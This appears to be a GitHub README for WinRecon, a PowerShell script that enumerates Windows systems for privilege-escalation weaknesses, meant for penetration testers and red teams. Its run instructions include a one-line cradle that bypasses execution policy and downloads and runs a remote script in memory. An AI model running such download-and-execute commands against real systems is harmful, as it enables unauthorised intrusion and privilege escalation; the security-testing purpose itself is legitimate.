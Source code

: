 # ![WinRecon Logo](assets/winrecon-logo.png)

## WinRecon

**WinRecon** is a PowerShell-based enumeration script designed to gather essential system information needed to identify potential privilege escalation opportunities on Windows machines. It automates the process of collecting valuable data to assist penetration testers, red teams, and system administrators in finding weaknesses that could lead to elevation of privileges.

---

## Features

- **System Information Collection**: Gathers key system details such as OS version, architecture, and hostname.
- **User and Group Enumeration**: Identifies all local users and groups, checking for any misconfigurations or privileged accounts that may be leveraged for escalation.
- **Installed Software & Vulnerabilities**: Detects installed software and versioning, helping to identify outdated or vulnerable applications.
- **Service Configuration Analysis**: Checks for misconfigured services, such as unquoted service paths or weak service permissions, that can be exploited.
- **File & Registry Permissions**: Identifies files and registry keys with weak permissions that could be exploited for privilege escalation.
- **Active Sessions & Historical Logins**: Scans for active sessions and recent login history to help identify potential paths for lateral movement or privilege escalation.
- **Automated Process**: Reduces the time and effort required for manual enumeration by automating data collection.

---

## How to Run

1. **For full AD options you will need to download PsLoggedon.exe and PowerView.ps1**.
2. Run the script with the following command:
   ```powershell
   powershell -ep Bypass -Command 'IEX(IWR http://<LocalHost>/winrecon.ps1 -UseBasicParsing)'
   ```



